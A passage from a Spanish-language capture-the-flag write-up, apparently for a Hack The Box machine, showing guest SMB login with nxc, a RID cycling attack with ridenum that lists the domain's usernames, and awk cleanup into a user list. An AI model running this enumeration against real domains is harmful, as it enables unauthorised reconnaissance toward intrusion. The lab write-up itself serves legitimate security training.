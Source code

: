 ```bash
❯ nxc smb 10.10.11.202 -u 'guest' -p ''
SMB         10.10.11.202    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:sequel.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.202    445    DC               [+] sequel.htb\guest: 
```

A través de la herramienta de `ridenum` trataremos de realizar un `RID Cycling Attack` para lograr enumerar usuarios a través de fuerza bruta del RID. Comprobamos el resultado en el cual se muestran los diferentes nombres de usuarios existentes en el dominio.

```bash
❯ ridenum 10.10.11.202 500 2500 guest ''
[*] Attempting lsaquery first...This will enumerate the base domain SID
[*] Successfully enumerated base domain SID. Printing information: 
Domain Name: sequel
Domain Sid: S-1-5-21-4078382237-1492182817-2568127209
[*] Moving on to extract via RID cycling attack.. 
[*] Enumerating user accounts.. This could take a little while.
Account name: sequel\Administrator
Account name: sequel\Guest
Account name: sequel\krbtgt
Account name: sequel\DC$
Account name: sequel\Tom.Henn
Account name: sequel\Brandon.Brown
Account name: sequel\Ryan.Cooper
Account name: sequel\sql_svc
Account name: sequel\James.Roberts
Account name: sequel\Nicole.Thompson
[*] RIDENUM has finished enumerating user accounts...
```

Nos guardaremos el resultado en el archivo `users.txt`. A través de expresiones regulares, nos quedaremos solamente con los nombres de usuarios correspondientes.

```bash
❯ cat users.txt
Account name: sequel\Administrator
Account name: sequel\Guest
Account name: sequel\krbtgt
Account name: sequel\DC$
Account name: sequel\Tom.Henn
Account name: sequel\Brandon.Brown
Account name: sequel\Ryan.Cooper
Account name: sequel\sql_svc
Account name: sequel\James.Roberts
Account name: sequel\Nicole.Thompson

❯ cat users.txt | awk '{print $NF}' FS='\\' | sponge users.txt

❯ cat users.txt
Administrator
Guest
krbtgt
DC$
Tom.Henn
Brandon.Brown
Ryan.Cooper
sql_svc
James.Roberts
Nicole.Thompson
```
